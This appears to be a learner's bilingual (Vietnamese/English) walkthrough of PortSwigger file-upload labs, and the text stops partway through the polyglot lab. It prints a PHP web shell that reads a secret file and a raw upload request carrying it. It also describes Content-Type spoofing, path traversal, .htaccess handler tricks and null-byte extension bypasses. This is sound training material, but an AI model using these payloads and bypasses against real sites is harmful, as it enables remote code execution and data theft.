# File Upload (6 labs)

Causes: 

Impact:

Categories: 

Prevention: 

Common Payload:



## Apprentice

### [Lab 1: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Lab des: 

Lợi dụng chức năng upload ảnh đại diện (avatar) để tải lên một web shell PHP, thực thi mã từ xa và đọc nội dung file bí mật: `/home/carlos/secret`

Steps: 

- Test chức năng upload ảnh: 

  ![image-20250604033238116](./image/image-20250604033238116.png)

- craft file `exploit.py`: `<?php echo file_get_contents('/home/carlos/secret'); ?>`

  => upload avt = file php 

  Send req to burp repeater, gửi req, response trả về sẽ là nột dung file secret cần tìm.

![image-20250604033640351](./image/image-20250604033640351.png)

![image-20250604033721405](./image/image-20250604033721405.png)



### [Lab 2: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

Lab des: 

Bypass kiểm tra loại file bằng cách giả mạo MIME type, upload web shell PHP, rồi dùng nó để đọc `/home/carlos/secret`.

Steps: 

- thử upload file `exploit.php` => fail

  ```html
  POST /my-account/avatar HTTP/2
  Host: 0a1000d503b0da6a83163dde00600082.web-security-academy.net
  Cookie: session=xMbzLeO65tX5gNhSl4hoRExqfXhIrnTg
  
  // redacted info
  
  Referer: https://0a1000d503b0da6a83163dde00600082.web-security-academy.net/my-account?id=wiener
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  Priority: u=0, i
  
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="avatar"; filename="exploit.php"
  Content-Type: application/octet-stream
  
  <?php echo file_get_contents('/home/carlos/secret'); ?>
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="user"
  
  wiener
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="csrf"
  
  KCYwsgx1yoZgazPhaGICo9CM42wtFWfj
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl--
  
  ```

  Thay dòng `COntent-Type` = 

  ```
  Content-Type: image/jpeg
  ```

  ![image-20250604035332575](./image/image-20250604035332575.png)

=> upload oke

![image-20250604035443300](./image/image-20250604035443300.png)

- submit the solution `Q5lUXaP3ySGQFSMz0hDRCQ9pQ8UC85rq`=> solve the lab

![image-20250604035534846](./image/image-20250604035534846.png)

## Practitioner

### [Lab 1: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Lab des: 

Bypass việc ngăn thực thi file upload bằng cách (sử dụng path traversal) di chuyển file ra khỏi thư mục `/avatars/`, nơi không được thực thi, để đưa nó lên thư mục `/files/` có thể thực thi PHP.

Khi upload file exploit.php, trình duyệt k chặn, nhưng cũng k cho phép thực thi mà chỉ hiển thị nội dung là plain text:

![image-20250604040915496](./image/image-20250604040915496.png)

Steps:

![image-20250604041125062](./image/image-20250604041125062.png)

Chỉnh sửa phần `filename` trong trường `Content-Disposition` thành `..%2fexploit.php` (url encode của chuỗi traversal 1 lần)

=> send req

![image-20250604041310095](./image/image-20250604041310095.png)

![image-20250604041339151](./image/image-20250604041339151.png)

H file exploit.php được up lên và nằm ở thư mục /files/, chỉnh sửa req GET để xem ở đó file exploit có được thực thi không:

![image-20250604041527481](./image/image-20250604041527481.png)

=> `H8FDxN2dSVgcQVsl1aRRnWpT1152c6dk` 

![image-20250604041602475](./image/image-20250604041602475.png)



### [Lab 2: Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Lab des: 

- Lab có một tính năng **upload ảnh đại diện (avatar)**.

- **Một số đuôi file (extensions)** như `.php` bị **blacklist** nên không thể upload file chứa mã độc trực tiếp.

  ![image-20250606000234083](./image/image-20250606000234083.png)

- Tuy nhiên, **blacklist này có lỗi**, cho phép ta **bypass bảo mật** để upload và thực thi một **web shell PHP**.



Steps: 

- File `.htaccess` là một **tập tin cấu hình** đặc biệt được sử dụng bởi máy chủ web **Apache**, cho phép **tùy chỉnh cách hoạt động của máy chủ web** đối với thư mục nơi file `.htaccess` được đặt (và các thư mục con nếu không bị ghi đè). Chỉnh sửa req để upload file .htaccess có nội dung như sau:

![image-20250606001118803](./image/image-20250606001118803.png)

=> cho phép xử lý (thực thi) file .l33t như file php:

![image-20250606001630356](./image/image-20250606001630356.png)

=> gửi request để thực thi file l33t đã up lên

![image-20250606001656332](./image/image-20250606001656332.png)

=> get secret

`YDERjrbgsw1GF2NwTe7lEYP7asNJE8KG`

![image-20250606001738344](./image/image-20250606001738344.png)



### [Lab 3: Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)



lab des: 

Trang web có chức năng tải ảnh đại diện (avatar), nhưng có **blacklist** các phần mở rộng tệp (ví dụ: `.php`). Tuy nhiên, có thể **vượt qua bằng kỹ thuật null byte injection**

![image-20250607042857708](./image/image-20250607042857708.png)

steps: 

- capture POST /my-account/avatar và chỉnh sửa req: 

  ![image-20250607043223287](./image/image-20250607043223287.png)

  => response:

  ![image-20250607043301131](./image/image-20250607043301131.png)

  ![image-20250607043537502](./image/image-20250607043537502.png)

`GET /files/avatars/exploit.php HTTP/2`

![image-20250607043748139](./image/image-20250607043748139.png)

`exploit.php%00.jpg` sẽ được các trình xử lý chuỗi hiểu `exploit.php` và bypass được blacklist extension.

`NnXwRJSLOK96YTkicLSlprBQFVQoiHS7`

![image-20250607043953263](./image/image-20250607043953263.png)



### [Lab 4: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

Lab des: 

Ứng dụng web có chức năng tải ảnh đại diện (avatar), và có **kiểm tra nội dung tệp** để xác định có phải ảnh thật không (dựa trên định dạng và metadata).

![image-20250607045630433](./image/image-20250607045630433.png)

=> Tải một file **JPG/PHP polyglot** lên máy chủ để thực thi PHP code, từ đó **đọc nội dung file `/home/carlos/secret`**.

Steps: 

- Tạo file polyglot = `exiftool`

  ![image-20250607050223008](./image/image-20250607050223008.png)

  ![image-20250607051931162](./image/image-20250607051931162.png)

- Up file polyglot lên server và tìm chuỗi secret trả về: 



